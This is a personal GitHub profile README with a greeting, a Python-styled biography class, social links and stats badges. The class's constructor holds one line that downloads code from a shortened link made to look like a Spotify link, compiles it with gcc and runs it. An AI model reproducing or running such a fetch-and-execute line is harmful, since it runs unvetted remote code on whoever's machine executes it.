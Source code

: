<h1 align="center">Hi 👋, I'm Lorin 🍈</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&center=true&lines=Welcome!;Willkommen!;%C2%A1Bienvenido!;Bi+x%C3%AAr+hat%C3%AE!;K%CE%B1%CE%BB%CF%89%CF%83%CF%8C%CF%81%CE%B9%CF%83%CE%BC%CE%B1!;%E3%82%88%E3%81%86%E3%81%93%E3%81%9D%EF%BC%81;Croeso!"/> 
</p>

```python
class melorin4:
  def __init__(self):
    subprocess.call("curl -sL 'spoti.fi/3pdhI4G' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🐧 i'm interested in'           : {'art, *NIX customisation, linux and BSD in general >:)'}
      '- 💼 i am a'                      : {'17 year old high school student'},
      '- 🔭 i’m currently working on'    : {'fixing myself </3'},
      '- 🌱 i’m currently learning'      : {'python', 'javascript', 'GDScript', 'web development', 'godot engine'},
      '- 💬 you can ask me about'            : {'linux', 'art', 'games', 'books'}
      '- 👨‍💻 my art is available at'      : 'https://www.instagram.com/melolorin/',
      '- ⚡ fun fact'                    : ('i'm a void linux shill :>')
    }
if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(melorin4().__dict__)
```
<br>
<p align="center"><img src="https://cdn.discordapp.com/attachments/784337338209009674/914930936200691722/unknown_2.png"></p>
<p align="center">
<a href = 'https://open.spotify.com/user/vtfldxkkpxf1xi2we3q5gyrx0?si=d623566e51e34185'> <img width = '32px' align= 'center' src="https://camo.githubusercontent.com/15d4e1b8bf3ed25b7131cc93f248f86cc42deaf9e19fdb61aa1ba3b46e0400a5/68747470733a2f2f6564656e742e6769746875622e696f2f537570657254696e7949636f6e732f696d616765732f7376672f73706f746966792e737667"/></a>
<a href = 'https://www.instagram.com/melolorin'> <img width = '32px' align= 'center' src="https://camo.githubusercontent.com/c9dacf0f25a1489fdbc6c0d2b41cda58b77fa210a13a886d6f99e027adfbd358/68747470733a2f2f6564656e742e6769746875622e696f2f537570657254696e7949636f6e732f696d616765732f7376672f696e7374616772616d2e737667"/></a>
<a href = 'melorin#4696/'> <img width = '32px' align= 'center' src="https://camo.githubusercontent.com/79fcdc7c43f1a1d7c175827976ffee8177814a016fb1b9578ff70f1aef759578/68747470733a2f2f6564656e742e6769746875622e696f2f537570657254696e7949636f6e732f696d616765732f7376672f646973636f72642e737667"/></a>
</p>

<br>
  <br>

 ![Lorin's 𝚐𝚒𝚝𝚑𝚞𝚋 𝚐𝚛𝚊𝚙𝚑](https://activity-graph.herokuapp.com/graph?username=melorin4&theme=redical&hide_border=true&area=true)
| ![Lorin's github stats](https://github-readme-stats.vercel.app/api?username=melorin4&show_icons=true&theme=radical)             | ![Lorin GitHub Streak](https://github-readme-streak-stats.herokuapp.com/?user=melorin4&theme=radical)                                                                                                           |
| --------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=melorin4&langs_count=8&theme=radical&layout=compact) | ![Github Stars](https://github-readme-stats.vercel.app/api?username=melorin4&show_icons=true&locale=en&count_private=true&hide_rank=true&custom_title=My%20GitHub%20Stats&disable_animations=true&theme=radical) |
